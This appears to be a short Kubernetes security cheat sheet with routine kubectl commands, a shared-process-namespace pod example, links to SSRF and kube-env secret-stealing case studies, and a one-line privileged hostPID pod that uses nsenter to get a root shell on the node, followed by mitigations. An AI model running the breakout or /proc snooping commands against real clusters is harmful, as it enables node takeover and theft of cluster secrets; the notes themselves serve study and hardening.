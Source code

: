 # +

- On OOMKilled check dmesg on container host

# lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0

kubectl run -i --tty --image busybox foo --restart=Never --rm
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# case studies

### kube-env leaked via ssrf

- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Shopify’s $25k Bug Report, and the Cluster Takeover That Didn’t\.\.\. \- Greg Castle &amp; Shane Lawrence \- YouTube](https://www.youtube.com/watch?v=2XCm7vveU5A)
- [GitHub \- bgeesaman/kube\-env\-stealer: Automated GKE Kubelet Impersonation and Cluster Secret Stealer via kube\-env](https://github.com/bgeesaman/kube-env-stealer)

### root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet

